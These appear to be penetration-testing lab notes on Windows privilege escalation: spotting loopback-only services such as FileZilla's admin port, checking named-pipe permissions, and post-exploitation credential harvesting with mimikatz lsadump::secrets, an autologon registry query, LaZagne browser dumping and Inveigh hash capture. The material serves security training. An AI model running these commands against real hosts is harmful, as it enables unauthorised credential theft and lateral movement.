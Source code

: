 The main thing to look for with Active Network Connections are entries listening on loopback addresses (127.0.0.1 and ::1) that are not listening on the IP Address (10.129.43.8) or broadcast (0.0.0.0, ::/0). 
The one that sticks out immediately will be port 14147, which is used for FileZilla's administrative interface. By connecting to this port, it may be possible to extract FTP passwords in addition to creating an FTP Share at c:\ as the FileZilla Server user (potentially Administrator).
## Named Pipes
Pipes are used for communication between two applications or processes using shared memory. There are two types of pipes, named pipes and anonymous pipes. An example of a named pipe is `\\.\PipeName\\ExampleNamedPipeServer`
### Listing Named Pipes with Pipelist
```
C:\htb> pipelist.exe /accepteula
```
### Listing Named Pipes with PowerShell
```
PS C:\htb>  gci \\.\pipe\
```
### Reviewing LSASS Named Pipe Permissions
```
C:\htb> accesschk.exe /accepteula \\.\Pipe\lsass -v
```
Named Pipes Attack Example
### Checking WindscribeService Named Pipe Permissions
```
C:\htb> accesschk.exe -accepteula -w \pipe\WindscribeService -v
```
# Active Directory Considerations
Once you escelated your privileges especially on a Host that is NOT a domain controller but an object in the domain
## Post-Exploitation/Pillaging
```
c:\Users\ilfserveradm\Documents> mimikatz.exe
```
```
mimikatz # privilege::debug
```
```
Privilege '20' OK
```
```
mimikatz # lsadump::secrets
```
1. We find a set password but no associated username. This appears to be for an account configured with autologon, so we can query the Registry to find the username
```
PS C:\Users\ilfserveradm> Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\' -Name "DefaultUserName"
```
2. We see Firefox installed, so we can grab the LaZagne tool to try to dump any credentials saved in the browser.
```
c:\Users\ilfserveradm\Documents> lazagne.exe browsers -firefox
```
3. It's also worth running Inveigh once we have local admin on a host to see if we can obtain password hashes for any users.
```
PS C:\Users\ilfserveradm\Documents> Import-Module .\Inveigh.ps1
```
```
PS C:\Users\ilfserveradm\Documents> Invoke-Inveigh -ConsoleOutput Y -FileOutput Y
```
